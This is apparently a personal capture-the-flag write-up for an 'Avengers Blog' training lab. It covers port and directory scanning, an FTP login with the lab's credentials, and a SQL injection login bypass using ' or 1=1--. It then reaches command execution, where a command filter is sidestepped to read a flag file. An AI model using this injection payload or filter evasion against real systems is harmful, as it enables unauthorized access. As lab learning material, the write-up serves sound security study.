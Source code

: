 ==Avengers Blog   Flutter Aug 14 2021==

IP 10.10.0.77

> export IP=10.10.0.77

## Enumeration ##

### Source code ###

Found dirs

	img/
	js/
	css/

Found hint line 189

	<script src="/js/script.js"></script> <!-- Hint -->

/js/script.js found cookies flag

### Dev Tools ###

Checking cookies under Storage tab found cookies flag as well

"GET http://$IP" response headers under Network tab contain flag

### Scanning ###

nmap -sV -sC -T5 -oN nmap_initial $IP

	21/tcp open  ftp     vsftpd 3.0.3

	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	 ssh-hostkey: 
	   2048 b0:e5:59:ea:e7:88:c7:e0:69:30:0d:46:9f:20:75:c4 (RSA)
	   256 9d:80:60:d6:ac:c8:b2:aa:19:42:6d:56:fe:48:7c:a6 (ECDSA)
	   256 57:10:7a:e0:a2:f5:4f:d5:b7:7f:d7:e6:b4:c3:54:a5 (EdDSA)

	80/tcp open  http    Node.js Express framework
		http-title: Avengers! Assemble!


gobuster dir -u http://$IP -w directory-list-2.3-medium.txt -o gobuster_$IP

	/img (Status: 301)
	/home (Status: 302)
	/Home (Status: 302)
	/assets (Status: 301)
	/portal (Status: 200)
	/css (Status: 301)
	/js (Status: 301)
	/logout (Status: 302)
	/Portal (Status: 200)
	/HOME (Status: 302)
	/Logout (Status: 302)
	/stones (Status: 301)
	/PORTAL (Status: 200)

Logging in to ftp using given credentials groot:iamgroot

ftp> cd files

ftp> get flag3.txt

flag3.txt contains flag

### /portal ###

Trying SQLi with "' or 1=1--:' or 1=1--"
	
> Success


## RCE ##

whoami
	
	command disallowed

pwd

	/home/ubuntu/avengers

cd /; pwd
	
	/

> oh so that works

ls /home
	
	groot and ubuntu

ls /home/ubuntu
	
	flag5.txt

cat flag5.txt fails

less flag5.txt returns flag
